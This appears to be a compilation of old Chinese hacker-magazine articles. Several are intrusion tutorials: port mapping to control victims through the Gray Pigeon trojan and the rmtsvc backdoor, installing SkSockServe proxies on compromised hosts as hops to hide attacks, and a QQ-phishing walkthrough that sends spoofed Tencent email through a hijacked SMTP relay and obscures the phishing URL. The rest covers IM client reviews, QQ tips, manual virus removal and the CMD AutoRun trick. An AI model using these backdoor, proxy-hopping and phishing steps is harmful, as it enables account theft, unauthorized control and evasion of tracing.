这里需要强调一点，这个服务端程序已经被杀，但是免杀不在今天的内容里，就不在这里介绍了。现在将生成的服务端安装到一台拥有独立 IP 地址的系统中运行，这台计算机系统最好不要安装网络防火墙。现在我们在“连接参数”中的“VPort 服务端 IP”选项中输入这台主机的 IP 地址，以及在“控制端口”选项中输入对应的控制端口，然后点击“连接”按钮。连接成功后，在“映射设置”中设置远程端口和映射本地的端口，接着点击“映射”按钮就将本地端口映射到远程系统上了，如图 3。这样当木马服务端程序反弹连接到远程系统后，映射程序就会将连接到远程端口的数据转到本地端口，这样局域网用户就可以控制木马客户端程序了。


### 3. 端口映射方法三

如果大家觉得灰鸽子自带的端口映射功能过于简单，那么我这里再为大家推荐一款功能强大的端口映射软件——rmtsvc。虽然 rmtsvc 也是一款较老的网络软件，但是可能很多用户对它不甚了解，并且这款软件一直在默默地进行更新升级。Rmtsvc 当初之所以引起大家的关注，主要原因有两点。其一，rmtsvc 作为一款远程管理软件，一改传统控制软件的 CS 模式，而是利用浏览器直接对服务端程序控制的 BS 模式。其二就是其自身拥有强大的端口映射功能。

首先我们还是来简单地进行服务端程序的配置。由于 rmtsvc 是一款后门程序，因此打开一个记事本程序，这里就输入“user account=user pswd=password access=ACCESS_ALL”，这段代码主要是设置了登录用户名和密码，其它的都是按照后门程序默认的设置。然后另存为一个 Ini 格式的配置文件。然后将这个配置文件和后门程序进行捆绑，执行“rmtsvc.exe -d4 -f aaa.ini”命令即可，如图 4。从图 4 中我们可以看到，服务端打开了 7778 这个端口。现在打开 IE 浏览器输入“http://IP 地址:端口”，连接成功后输入用户名和密码等信息后登录。


登录成功后在左侧工具栏中点击“vIDC 管理”，可以看到程序包括多种类型的端口映射设置。由于是在远程系统中进行端口映射，因此直接点击“远程端口映射”选项进行设置。我们首先点击“vIDCs 列表”中的“新增”按钮，按照提示输入名称、vIDCs 地址、vIDCs 端口等信息，从而激活了后门程序的端口映射功能，如图 5。添加完成后选择刚刚添加的地址，点击“连接”按钮后按照“远程映射服务信息”中的提示，输入应用服务地址、应用服务端口、应用服务类型等，如图 6，就可以完成相应的端口映射操作了。


## 三、端口映射如何防

- 1. 首先还是需要用户及时修复系统的安全补丁，尤其是 MS06-014 和 MS07-017 这两个高危的漏洞。可是随着国内用户安全意识的逐步提高，传统方法已经很难再获得良好的效果。因此病毒作者又寻找到了“第二战场”，因为他们发现了应用程序漏洞这片广阔的天空。因此大家除了修复系统漏洞以外，及时更新这些应用软件的版本，或安装其安全补丁也是非常重要的。

- 2. 安装最新版本的杀毒软件。虽然通过杀毒软件的病毒防御功能，不能完全做到软件漏洞攻击的防范，但是杀毒软件仍然是这样的防范工具。尤其是新近推出的 08 系列杀毒软件，都不同程度地增强了软件的防御性。这样可以充分弥补传统特征码查杀技术的不足，也可以从系统底层有效地防范软件漏洞的攻击。如果这方面不引起用户注意的话，那么我就提前恭喜你了，因为下一个中招的可能就是你！

- 3. 安装并启用网络防火墙。因为端口映射需要黑客通过本地连接到远程系统进行控制以后，才能最终完成整个端口映射的操作过程。如果安装并使用了网络防火墙，黑客就无法连接到服务端程序，从而就阻断了黑客进行下一步设置操作的可能。

## 四、小结

到此为止，关于端口映射的作用和使用就为大家介绍到这。可能对于拥有独立 IP 地址的用户，端口映射没有什么太大的用处。但是我们也可以反向进行思考，即利用端口映射入侵局域网中的某台电脑系统。下一次将继续围绕端口为大家讲述，我们在入侵过程中常见的方法和手段。

> 编辑点评：

端口映射，最简单的理解就是数据转发，有点像代理。端口映射大多被利用在局域网建站等服务上，一些稍微大型的网络除了利用反向代理以外，还是会利用端口映射来建站。而在入侵方面，端口映射往往用在拥有单机权限后对整个网络的防火墙突破和渗透过程中。


## 网络跳板，黑客隐身的重要因素

张健

- 从本文您可以学到：
- 1、了解跳板
- 2、怎样使用跳板隐藏自己

最近在网络中无意看到一篇名为《网络间谍危害中国国家安全》的新闻，文章中提到台湾谍报机关曾经把某个政府网站作为一个中转跳板，向外发出了很多经过伪装的邮件，进而侵入其他一些重要部门的网络。对于刚刚接触网络安全的朋友来说，“跳板”这个黑客名词可能有些陌生，今天我们就来说一说“跳板”。

## 一、什么是跳板

这里我们可以举例进行说明。假设有 A、B、C 三台计算机，如果用户想通过 A 登录到 C，但是又不想在 C 的系统中留下机器 A 的 IP 地址。那么这时用户就必须要首先连接到计算机 B，再利用计算机 B 连接到计算机 C 上，将 C 系统中的东西传到 B 系统再由 B 传到 A 系统。这样留在计算机 C 上的记录就是 B 系统的 IP 地址，这里的计算机 B 就起到了跳板的作用。其实我们常见的代理服务器，应该说就属于跳板的一种，通常情况下都说是代理跳板。

## 二、跳板的制作

### 1. 利用木马制作跳板

很多木马程序自身都带有代理服务器的功能，比如说大名鼎鼎的灰鸽子木马。运行灰鸽子的客户端程序，点击“配置服务器”来配置木马的服务端。在弹出的“服务器配置”窗口选择“代理服务”标签，根据自己的需要设置“Socks5 代理”或“Http 代理”和选项中的内容，比如“端口”“用户名”“密码”等，如图 1。这样黑客就获得了一台代理服务器。如果先前没有设置代理，当服务端上线后单击“远程控制命令”中的“代理服务”命令，设置相应的选项后立即就可以将远程计算机变成一台代理服务器，如图 2。


### 2. 利用专业工具制作

SkSockServe 作为流行的 Socks5 代理程序，曾经在国内的网络安全界名噪一时。该程序除了基本的跳板功能以外，还拥有 UDP 包经由 TCP 进行的隧道转发功能，同时还会加载两个 Snake 代理之间的通信。不过 SkSockServe 对于普通用户来说，有一个致命的弱点，就是需要在 DOS 环境中进行安装和运行。


首先通过网页木马、系统注入等方式获得远程计算机权限，接着在其上种植一个木马的服务端程序，再利用木马程序将 SkSockServe 上传到远程系统中。现在运行木马客户端程序中的远控命令。首先通过 CD 命令切换到 SkSockServe 程序所在的目录，我们这里为系统的 C 盘，下面我们就在网络终端环境下输入一个命令，如图 3。

```
SkSockServe.exe -install
安装代理软件
SkSockServe -config port 2008
设置代理端口为 2008，如果用户不设置的话，默认的端口就是 1813
SkSockServe -config starttype 2
设置程序为自启动方式，这样当计算机重新启动后，软件也会随其自动运行
net start skserver
运行代理软件
```

到此为止，SkSockServe 代理软件就设置完成了，现在通过 QQ 等软件的代理功能来验证。上面每一道命令执行后都会有提示，它可以告诉你每一步的操作是否正确。

现在运行代理软件“代理王”，选择主界面中的“代理”标签，点击“添加”按钮对代理信息进行设置。在弹出窗中的“名称”选项中随便写一个名词；接着设置“类型”“IP 地址”“端口”等信息，在“类型”选项中设置为 Socks5，如图 4。然后点击“确定”按钮将代理添加到表中。


现在点击“常规”标签，在“代理规则”中选择“部分代理”按钮，如图 5。点击“包含列表”按钮设置需要使用代理的黑客程序，接着在“选择需要使用的代理服务器”中设置跳板信息，再把“启用代理功能”选项勾选上，然后点击“应用”或“确定”按钮即可。现在通过黑客程序进行入侵后，远程主机显示的就是跳板的 IP 地址。


## 三、防范操作

只要是网络中的计算机系统，一旦被控制就可能成为黑客的跳板，因此大家要从多方面来防范黑客的入侵。比如对于个人用户来说，重要的就是及时修复系统中的补丁，从而全面有效地防范网页木马的入侵；而对于网络系统的话，管理员除了应该防范注入、旁注这样的入侵，更应该尽可能地减少系统中的漏洞，进而避免黑客对服务器的控制。

## 四、总结

到此为止，关于通过端口进行入侵的系列文章，就为大家连载完了。从这些文字中我们可以看出，无论是正常的网络活动还是黑客入侵，“端口”在其中都扮演着非常重要的作用。我想这就是人们常说的，平凡的事物中往往蕴涵着深刻的道理吧。

> 编辑点评：在入侵过程中最好使用跳板，如果你不想被抓住的话。不过在选择代理的时候要注意了，一定要选择那些高度匿名的代理，否则还是会被追踪到的。


## IM 账号大聚会

> **网编自语**

《2009》终于以崭新的面貌与用户见面了，虽然现在仅仅是一个内部版本，但给人的感觉是不错的。实用的功能做得多了，界面更加简洁美观了。希望这个月内能弄完《2009》这次的改版工作。我更相信会有《2009》不错的意见，能方便用户的就是最好的。继续完善、发展，还有改变……

**从本文您可以学到：**

- 了解几款多协议 IM 客户端

给黑手发了一封稿之后，感觉意犹未尽（虽然未必会录用），于是就回宿舍再看一看杂志。突然看到《酷玩》栏目的首语，是说要一款支持同时登录多种 IM 账号的软件。蓦然想起，我曾经就有几款，既然小编都说了，那我也不好意思藏了，待我慢慢道来。

## Pidgin

就以它开始吧，这就是小编提到的那个软件了，它的原名是 Gaim，其实它也支持 Windows 的，请看图 1。很简洁吧！它可以与使用 AIM、ICQ、Jabber/XMPP、MSN Messenger、Yahoo!、Bonjour、Gadu-Gadu、IRC、Novell GroupWise Messenger、QQ、Lotus Sametime、SILC、SIMPLE 和 Zephyr 等即时通讯软件的朋友对话。当然，也可以同时登录了。安装就不讲了，只是注意把快捷方式勾上就行了，如图 2，不然，你得到安装目录去找它了。


初次见面如图 3，点“添加”，再选协议，然后输入账号和密码，如果想自动登录就把“记住密码”勾上，还可设置好友本地的头像。勾上“此账户使用此好友图标”，然后点下面的按钮就可以选图片来当头像了，如图 4、图 5。最后点保存就可以登录了。管理账户时点主窗口的“账户”菜单，选管理就行了，如图 6。添加好友时，点主窗口的“好友”→“添加好友”，然后选账户类型，输入用户名、本地的别名，点添加即可，如图 7。聊天时双击好友即可。还有一点就是在主窗口的“工具”→“插件”处，根据需要把插件选上可以扩展一些功能。不过 Pidgin 的功能不是很多，好了，不多说了，剩下的自己探索吧！


## Trillian

Trillian 是一个功能非常强大的网络即时联络工具，包括：支持 IRC、AIM、ICQ、MSN Messenger。它的其他功能包括：多服务器连接；可定制的图形界面；加密 DCC 聊天、普通和加密 DCC 聊天室。它具有独特的非直线型窗口和可更换皮肤的界面（通过 XML）。Trillian 还具有常用的好友列表、声音支持、透明窗口等。而且它使用起来非常潇洒，没有广告和烦人的窗口，并且支持脚本语言。可惜不支持 QQ 和 Google Talk，不过功能比 Pidgin 强多了，如图 8。


看到中间的那些点了吗？点击它们就可以建立相应的连接。Trillian 可以在里面建多个管理用户。点主窗口的“Trillian”→“Trillian 属性”弹出一个窗口，点里面的“高级属性”，再点添加，弹出如图 9 的界面，填入相应的信息即可。这个用户就像系统的用户一样，为每一个人保存不同的设置。添加好友时，只要在“我的联系人”上右击，选添加联系人或群组，然后按提示操作即可，如图 10，也没什么可说的了，大家可以自己体会一下。


还有类似的一款是 Instant Messenger 2，它支持 AOL、ICQ、MSN、IRC、Yahoo 协议，单协议多账号、支持多媒体音频视频聊天、支持文件传输共享、支持皮肤、隐私加密保护、申请密码启动、多语言支持、自选多种登录状态（包含隐身）、User Is Typing 提示、表情符库、实时事件 popup 提醒、邮箱检查、细致账号设置等。我就不多说了，如图 11。


## Instantbird

Instantbird 可以让用户同时登录 AIM、Gadu-Gadu、Google Talk、ICQ、QQ、MSN、Windows Live Messenger、XMPP、Yahoo! Messenger 等多种 IM 客户端的账号，基本实现畅通无阻的聊天。根据路线图，0.1 版只是实现基本功能，界面也比较粗糙，之后会随之丰富起来，包括多语言版，到 1.0 版的时候将可以达到 Pidgin 的水平。如图 12。


**总结**

我总觉得这类软件如果支持 QQ 一般都比较简陋，不知道是什么原因（小编：QQ 协议不是开放的呗），但不支持 QQ 的功能一般都比较好，如 Trillian 和 Instant Messenger 2。大家根据需要来选吧！由于软件有点大，这里附上下载地址。

- 下载地址：
- Pidgin: http://www.skycn.com/soft29784.html
- Trillian: http://www.skycn.com/soft4960.html

## 窃取QQ的社会工程学的应用实例

图 神话丨S.e.R.刊

从本文您可以学到：
- 社会工程学的应用
- 怎样通过邮件中继来发送邮件

当我们用尽口令攻击、溢出攻击、脚本攻击等手段还是一无所获时，你是否想到还可以利用社会工程学的知识进行渗透呢？关于社会工程学的定义，我的理解是：社会工程学是关于建立理论，通过自然的、社会的和制度上的途径，并特别强调根据有效设计和利用设计经验来一步接一步地解决各种社会问题（小弟拙述译ing）。说得通俗点，就是利用人性的弱点，结合心理学知识来获得目标系统的敏感信息。这种方法和传统方法还是有一些区别的，但是它的作用绝对不比传统方法的效率低。这里我就以大家喜欢“研究”的窃取QQ来作为实例讲解。

首先，我们要取得目标的邮件地址。得到目标的邮件地址方法有很多，得到邮件地址后我们可以干什么呢？我们现在要做的就是伪装成腾讯总部的工作人员发一封邮件给他，告诉对方由于各种原因他的密码保护资料丢失，要求他去某某站点补填一份。

好了，大体的思路已经说了，现在就来说实施方案吧。首先我们要找一台具有邮件中继功能的电脑，大家可以在3389肉鸡上完成这个动作。登录肉鸡后，找到弹出菜单依次点击 Internet 服务管理器——SMTP 服务器——属性——访问——中继——添加你自己的 IP 进去就可以了。这样我们就可以利用它来发邮件了。接着我们就 telnet 上肉鸡的 25 端口去发邮件了，下面是我发信的过程，注意看（后面是我的注释）。

```text
telnet ip 25 连接上肉鸡的 25 端口，接下来我们会看见一些 SMTP 服务器的版本信息

helo 和服务器打个招呼吧，呵呵，告诉他你要写信。
mail from: qq_@tencent.com 我们伪装成 qq_@tencent.com 这个邮箱给目标发信，让他觉得是腾讯发给他的
rcpt to: xxxx@yahoo.com.cn 告诉服务器接收的人（也就是我们的目标）的邮件地址是 xxxx@yahoo.com.cn
data 告诉服务器我们现在要开始写邮件正文了
```

输入完正文后按回车，再按点号和回车来结束邮件正文的编辑。最后输入 quit 退出肉鸡。

目标在接到这封信后，如果对内容深信不疑，自然就会点击邮件中提到的地址去重新注册密码保护啦（当然是我们伪装而成的腾讯站点），这就靠大家编故事的水平了。而我们在邮件里提到的站点地址当然不能就是写上自己的那个假密码保护网址，这样很容易就被人看出来。

这里我们就需要对 URL 知识进行一下学习了（具体大家自己找找资料）。其实大家可以发一个 `http://www.tencent.com@肉鸡ip` 这样的网址给他。也许有人觉得奇怪，网址怎么是这样的？前面 www.tencent.com 是腾讯的网站，这样可以增加其可信度，而在 @ 后面的才是我们真正要去的地方。也就是说，http 和 @ 之间的内容都是不起作用的。我们如果再对网址进行一些处理，就更加具有欺骗性了。这里我简单说一下方法，具体细节大家找找资料。例如把伪造的腾讯页面放在 www.sohu.com 上，我们先 ping 得其 IP——61.135.132.173，然后打开 Windows 自带的计算器。把 61、135、132、173 分 4 次输入，每次输入后把它转成 16 进制并记录下来。我们把 4 次得到的 16 进制数组合在一起可以得到 3d8784ad 这组数，再输入计算器把 16 进制转为 10 进制，得到 1032291501，提交 `http://www.tencent.com@1032291501` 页面，我们就可以访问 sohu 的页面了，这是一个示范，大家具体情况具体对待。

> **编辑点评：**  
> 本来这篇文章不是很完整，但还是放上来了，因为其中的一个亮点，就是利用邮件中继来发送钓鱼邮件，这样可以伪造发件人的邮件地址，并且 Telnet 用代理就可以防止追踪。现在有很多可以伪造发件人的邮件软件，其原理也是一样的。

Trillian 汉化补丁：http://www.skycn.com/soft/20464.html  
Instant Messenger 2（IM2）V2.0 Final  
http://www.skycn.com/soft/24705.html  
汉化版：http://www.skycn.com/soft/24952.html  
Instabird：http://www.skycn.com/soft/39786.html

> **编辑点评：**  
> 其实在 Windows 下上 MSN 我也一直用 Pidgin，但 Pidgin 毕竟不是 Windows 原生的东西。并且个人感觉界面也不是很友好，而且很多功能不支持，不过如果你只聊天的话，已经足够了。

## QQ2009 Preview 评测报告

图 Kay4

QQ2009 Preview 是腾讯在线 QQ2008 系列版本之后的一个技术预览版本，目前仅仅提供了部分功能的预览，也是腾讯的又一 TM 力作。与以往的 QQ 版本相比，拥有了一个新的 IM 技术平台，也是 Hummer 计划的又一产物。好了，QQ2009 的推出就为大家介绍到这里，废话不多说，下面来看看它的新特性：

### 1．全新设计的用户界面，视觉体验更简洁爽快

这次大家见到的不是以往经典的 QQ 传统登录界面了，而是类似于 MSN 的登录界面。特别值得一提的是，在账号输入框里可以显示自定义头像了，QQ 状态也整合进了登录按钮里，如图 1。

再来就是 QQ 好友界面也做了改动，将 QQ 好友、群、最近联系人等放在了一起，方便操作，如图 2。


### 2．全面优化的程序性能，操作体验更流畅轻快

QQ2009 占用内存，如图 3。其他几款即时通讯软件占用内存，如图 4。

跟以前的几个版本相比，特别是 QQ2009 将 TM 和 QQ 整合后，在内存占用这方面做得相当不错。更加值得一提的是此版本……

### 3．新增查找联系人功能，好友更多也不怕

根据笔者的试用，这个功能在 2009 的版本里还是非常实用的，比以前版本中的查找好友功能要好得多，定位也准，支持备注名称查找、离线好友查找，如图 6。

### 4．新增个人形象功能，自由定义更富个性

这个可以说是此次修改后最大的亮点了，用户对话框的右侧显示的不再是 QQ 秀了。在这里可以设置 3 种模式，我也不多说了，看图吧，如图 7。

### 5．新增情景切换模式，工作娱乐自由切换两不误

和手机里面的几种模式一样，不同的模式对应不同的状态，很明显，这里面有 TM 的影子，如图 8。

### 6．新增未读消息盒子功能，免除打扰更高效

这个功能我也就不多说了，2007 的版本都有的，看图吧，如图 9。

### 7．新增特色在线状态，个性状态表现更自由

同样，也是 2007 就有的，我连图都懒得截了。

### 8．新增业务面板功能，个人业务统一管理更方便

以往的 QQ 用户界面左侧的工具面板不见了，取而代之的是业务面板。由于是测试版，所以很多都没开放，等正式版一出，相信会呈现一个完美的面板，如图 10。

### 9．新增文件中转功能，G 级存储，极速中转

有体验过 2009 的用户肯定在想我的 QQ 硬盘去哪了呢？为了解决用户这一困扰，腾讯为我们开放了文件中转功能，不过这个功能放在 QQ 迷你首页的做法实在令笔者很难接受，貌似腾讯要在此版本中大力扶持迷你首页了哦，如图 11。

### 10．支持多种语言的客户端版本和消息收发

令笔者惊讶的是，腾讯的服务什么时候如此人性化了。为了适应不同国家的人的沟通方便，特地开发了此功能，腾讯体谅用户的心可见一斑啊，如图 12。

以上是 QQ 自述文件里面的新特性，在经笔者的亲自体验后还发现了一些其他的“闪光点”。除了 QQ 菜单、应用设置、查找和好友聊天的面板做了修改，变得更加好看以外，在好友资料卡里面还用了更加详细的设置，让用户的娱乐性更进一步提升了，如图 13。还有一个屏蔽好友的功能，作用就不要我说了吧，如图 14。在传送文件这方面也做了改动，不但界面让人看起来更加舒服，也更加实用了。

总的来说，腾讯的下一步棋是要将以 QQ 为平台，面向更广大的网络用户、设施，展开其在线生活战略布局。无论你喜不喜欢，都得接受，只是 TM 再也没有了。

作为腾讯下一款的 IM 软件，在其放弃了 TM 并将其整合进 QQ 以后，QQ2009 就已经不再是一种纯粹的聊天软件了。以后腾讯的多品牌战略将集中于 QQ 一身，它不再只是娱乐，同时也是工作，还可以做更多，所有的这一切。

## 编辑点评：

最后一句话让人好难过啊，我个人而言还是喜欢 TM 多一点。不过 QQ2009 总体上给人的感觉还是相当不错的，新的 QQ 不仅仅是界面变了，带给我们最大的欣喜还是性能的提高。赶快来体验一下吧。


## 不是内测用户我照样体验 QQ2009

■ 艾米 / 李武祥

从本文您可以学到：  
非内测用户怎样体验 QQ2009

这 2008 年刚到，QQ 又推出了 2009 版。该版本不到 10M，安装完毕后 20 多 M，基本和 TM2008 Preview4 大小相当，界面和功能上也极其相似。不过不是所有的人都能体验的，如图 1。我们小菜哪里来的内测资格呢！是不是没有内测资格我们就没办法了啊？答案是 NO！


首先我们先安装一个简体中文版 TM2008，然后再安装 QQ2009（谁前谁后一样啊）。安装好后来到 TM2008 的安装目录，把 bin 文件夹下的 tm.exe 和 vvi.dat 文件复制到 QQ2009 安装目录的 bin 文件夹下。现在你可以将电脑中的 TM2008 卸载掉了，双击刚才复制过去的 tm.exe，出现的将是 QQ2009 的界面了。如果你愿意，可以将 tm.exe 改成 QQ.exe，这样桌面上的快捷方式都不用修改，就可以使用 QQ2009 了。经测试可以正常使用，界面如图 2。很漂亮的 VISTA 界面啊！

至于其它功能就交给各位去体验了，我也不想浪费辛苦打的版面了。有什么问题就来手册或我的 BLOG：www.flywx.cn 来讨论吧！

```text
QQ 下载：
QQ2009：http://221.236.11.195/qqfile/tm/qq2009preview_chs.exe
TM2008：http://218.85.138.49/qqfile/tm/tm2008preview4_chs.exe
```

> 编辑点评：  
> 读了 QQ2009 Preview 评测报告以后，是不是也跃跃欲试了？本文刚好可以给你这个机会，按照文中的方法，一起来体验一下 QQ2009 吧。

## 把你的 QQ 昵称和年龄隐藏起来

从本文您可以学到：  
如何手工隐藏 QQ 昵称和年龄

玩 QQ 也有一段时间了，发现原来 QQ 的昵称和年龄能够隐藏，如图 1。

众所周知，在未填写昵称和年龄时是不允许保存应用的，QQ 会提示“不能为空，请重新输入”，如图 2、图 3。故事就发生在此时，看我们如何绕过提示保存应用设置。


首先打开 QQ 个人设置版面，把你的昵称和年龄删去，然后点击右边的“更改头像”，在弹出的页面里选择一幅头像（当然你也可以自己上传一幅，但必须保存在头像页面里），点击确定，再点击一次“个人设置”的确定。OK！成功保存。写得白了点，但我更讨厌写得不清不楚的人。

**注意：**以上设置在再次进入个人设置时会失效。

> 编辑点评：  
> QQ 昵称和年龄空白的设置方法以前有过介绍，不过都是要依靠程序来实现，今天作者给我们提供了一个不需要借助任何工具就可以实现的方法，别客气，好好玩。

## 删除了的空间日志照样看

■ 苍茫忆化里

从本文您可以学到：  
怎样看已经删除的好友日志

大家在上 QQ 的时候，有时看到好友的 QQ 版面上 QQ 空间有新文章显示，但点击进去后却像图 1 那样——文章已经删除。


现在就教大家一个删除后的 QQ 空间日志照样看的方法。其实是很简单的，我们只要利用 QQ 邮箱新推出的功能——我的阅读空间，如图 2。


进入 QQ 空间选择我的阅读空间，就可以看到图 3 那样的链接——好友 QZone 的更新。点击进入好友 QZone 的更新，接下来就自己找到好友的文章吧。

要提醒的是，不要点击《原文阅读》，它是进入 QQ 空间看文章的，QQ 空间的文章都删了，还怎么能进去看呢？


> 编辑点评：  
> 有时候，想重温一下好友空间里的好文章，却发现文章已经删除了，是不是很遗憾呢？还是要感谢 TX，让我们从此以后没有遗憾了。

## QQ会员获得硬盘文件下载路径的方法

**从本文您可以学到：**  
QQ会员如何获得硬盘文件下载路径

没有开通网络硬盘的高级用户，是不能得到文件的下载路径的。高级用户可要 20 块钱一个月，会员已经花去 10 块了，难道再花 20？告诉你，不需要，你可以用以下方法搞定。前提是你是 QQ 会员，因为只有会员才有在线播放音乐的功能。

首先将文件改名，在后面加个 .mp3 或者 .WMV，然后右击，点击“在线播放”，Windows Media Player 将启动。因为其根本不是 MP3 或者 WMV 文件，所以必定会提示播放错误，不管它。从正在播放列表中选中文件右击“属性”，你会看到“http://219.134.128.58/qdata/*.asx”的地址，如图 1。把地址复制下来，在浏览器里打开，打开之后是一片空白，右键——查看源文件，你会看到一串很长的网址，把最后的 .mp3 或者 WMV 去掉，剩下的就是真正的文件地址了。简单吧，还不赶快去试试。

> **编辑点评：**  
> 任何限制都有破解的方法，QQ 网络硬盘的“防护”只是隐藏真实下载地址，其实还有很多方法可以得到这个地址，比如嗅探等，大家自己研究吧。


## 利用“NTFS”手杀顽固病毒

**从本文中你可以学到：**
- 解锁注册表的三种方法
- 修改注册表限制部分系统程序运行
- 修改权限禁止程序执行
- 修改组策略关闭自动播放

周末接到表弟的电话，说用 U 盘在同学家拷了份资料，回家拷贝在自己电脑上后，系统就出现了很多问题，叫我赶紧过去看看。（注：表弟家的电脑是 XP SP2 操作系统，由于没有上网，所以也就没安装任何安全工具，管理员密码为空。而我接到他电话的时候正在外面，所以也没准备任何安全工具。）到了表弟家后，启动电脑，登录系统后发现：“开始”菜单中的“关闭系统”“运行”和“查找”被删除。打开“我的电脑”，发现所有的硬盘盘符和工具栏中的“文件夹选项”也都被删除了，如图 1。

尝试在地址栏输入 `C:`，显示如图 2。

按 Ctrl+Alt+Delete 调用任务管理器，出现如图 3 的提示。

看来病毒把磁盘访问和任务管理器调用项都禁用了。没办法，新建了个文本文档，输入以下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

保存为“解除注册表锁定.reg”，双击导入，结果出现如图 4。


```bat
@echo off
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /f
```


保存为“解除注册表锁定.bat”，运行，但残酷的现实又一次打击了我，如图 5。

看来这病毒把 cmd 也禁用了，这怎么办？重做系统？表弟的很多重要资料都存在 C 盘里，重做系统再恢复数据更麻烦。想起前些天看到的用“安装信息文件”（就是以“INF”为后缀名的文件）解除锁定的注册表的方法，我决定试一下，于是把以下内容输入到文本文档：

```inf
[Version]
Signature="$Windows NT$"

[DEFAULTINSTALL]
ADDREG=ADDREG.REG

[ADDREG.REG]
HKCU,Software\Microsoft\Windows\CurrentVersion\Policies\System,DISABLEREGISTRYTOOLS,0x00010001,0
```

然后保存为“解除注册表锁定.inf”，单击右键，选择“安装”，再次运行“解除注册表锁定.reg”（编辑：上面的方法已经解锁注册表了啊，干吗再做一次），注册表脚本可导入了！接着建立了一个注册表文件，定名为“修复注册表.reg”，输入以下内容并导入：

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoRun"=dword:00000000
"NoClose"=dword:00000000
"NoFind"=dword:00000000
"NoDrives"=dword:00000000
"NoViewOnDrive"=dword:00000000
"NoFolderOptions"=dword:00000000
```

```reg
Policies\System\
DisableTaskMgr=dword:00000000
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System]
DisableCMD=dword:00000000
```

这样，禁用的选项在重启后就可以恢复了（编辑：其实大部分修改不用重启就可以立即生效），然后调出任务管理器，看到两个可疑的进程，“IEXPLORER（第6位是数字零）”与“SVCHOST（第5位是数字零）”，结束其中任意一个进程，马上又重生了，看来是双进程保护。点“开始”——“运行”——msconfig 打开“系统配置实用程序”，查看自启动项，果然它们都在上面。取消它们自启动项，重新启动计算机后，系统又无情地被病毒霸占了。于是又重复了刚才的工作，然后调出注册表，找到病毒自启动键值，删除后刷新，发现被删除的键值竟然又被恢复。看来这个病毒挺顽强的，再次重启，按 F8 进入安全模式，然而在安全模式下，病毒竟然被再次加载！当时有些灰心，打算放弃，重做系统算了，但想到刚才辛辛苦苦做的一切，觉得很不甘心，再次做了“清洁工”后，思考了一下：病毒可能有驱动级的保护，所以能在安全模式下加载（本人乃一菜鸟，如来说得不对，请高手批评指教）。如果能让病毒在系统启动时不进行加载，那就可以顺利删除了（废话）。这时候突然想到了硬盘格式是“NTFS”的，何不利用其“允许权限设置”的特点进行一次“主动防御”呢？于是我进行了以下操作：

- 1. 打开“我的电脑”——“工具”菜单——“文件夹选项”的“查看”选项卡，选中“显示所有文件和文件夹”、“显示系统文件夹的内容”，取消“隐藏受保护的操作系统文件”，如图 6。确定后，通过病毒自启动项路径，找到病毒藏身位置。
- 2. 单击选中病毒文件，右键选择“属性”，再选择“安全”选项卡，删掉除了“Administrator”和“Administrators”的一切用户和组，如图 7。
- 3. 点击“高级”按钮，这时候出现了一些选项，在“权限”栏选中“Administrator”点击“编辑”进入“新建的权限项目”，拒绝除“删除”外的一切权限（“Administrators”也参照此法），如图 8。
- 4. 点击“应用”和“确定”完成编辑。


重新启动计算机，按 F8 进入安全模式，如我所愿，病毒没有被加载。下面的事就不用我啰嗦了吧，删除病毒文件，然后打开注册表，找到病毒自启动位置，删除相应键值。然后使用组策略：计算机配置——管理模板——系统——关闭自动播放，把关闭自动播放的值修改为“所有驱动器”，最后重启计算机，如图 9。


- 5. 重启后发现该病毒在 D 盘和 E 盘都留有副本和“autorun.inf”文件，企图通过 autorun 死灰复燃，彻底将其删除，大功告成！

**小结：** 本文技术含量不高，只是想告诉大家，多多利用系统中自带的功能，也许会做更多的事情。

> ［文章中涉及到的注册表脚本、批处理及 inf 文件在光盘中有收录］

**编辑点评：** 最坏始作俑者为什么不尝试组策略是否可用呢？如果是的话，那就省了很多弯路。本的确病源，反正我是比较倾向于这个的，呵呵~对于杀毒软件更新打补丁的确只用系统程序就够了，就看你对它们了解不了解了，尤其是注册表。在杀 Autorun 病毒的时候，我们不要忘了删除病毒源文件哦，要不所做的一切就都灰飞烟灭了。


## 防止 CMD 闹鬼

- 从本文中你可以学到：
- 1. 如何禁用 cmd
- 2. 修改 cmd 使系统对 cmd 的禁用失效
- 3. 修改 cmd 使 cmd 的 autorun 功能失效

前些阵子 CMD（也称命令提示符）闹鬼搞得是沸沸扬扬啊，肯定吓得很多小菜不敢用了吧……今天我就来手把手教大家怎么防止 CMD 的 AUTORUN 闹鬼，顺便再手把手教各位制作一个属于自己的真正自由版的 CMD，不再受到系统的设置限制。也就是说无论系统是不是禁止了 CMD 的运行，我们自制的 CMD 都可以不受其影响。

首先简单介绍下 CMD 闹鬼的来历。近期有人公布了一个挺好玩的技巧，就是在 **HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor** 键下建立 **AutoRun** 键值（该值为字符串类型），就可以使 CMD 运行时调用指定程序，这里的值可以是相对路径。（网上有人说要绝对路径，是不准确的。）比如我将 autorun 值设置为“notepad.exe”，在运行 CMD 的同时也打开了一个记事本的窗口（编辑：其实不是绝对路径和相对路径的问题，因为记事本存在的路径在 Windows 的 path 环境变量中，用户在“运行”或其它地方直接输入程序名的时候，Windows 就会在这个环境变量中的低优先级路径中搜索，搜索到就执行相应的程序，否则提示没找到文件，需要输入绝对路径）。另外这里也可以是 cmd 命令，比如 start www.baidu.com，这样在打开 CMD 的同时也同样会打开默认浏览器浏览百度的网站，以此类推。如果是“.scr”、“.pif”、“.cmd”、“.com”等可执行格式的应该也是一样可以的（不过如果是 bat 格式就会利用你刚打开的 CMD 窗口来执行，会露出马脚 ^_^）。利用方面就是这样，下面手把手（最好是美女的手 O(∩_∩)O）教大家制作不受限制以及不受 autorun 限制的 CMD。

- 1、打开注册表来到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor，autorun 键值设置为“notepad.exe”，还要把命令提示符禁用（方法为开始——运行——输入 gpedit.msc 打开组策略编辑器，找到用户配置——管理模板——系统，将“阻止访问命令提示符”策略改为“已启用”，并且将下面的“也停用命令提示符脚本处理吗？”也选“是”），上面的操作是为了我们稍后对 CMD 做的手术；
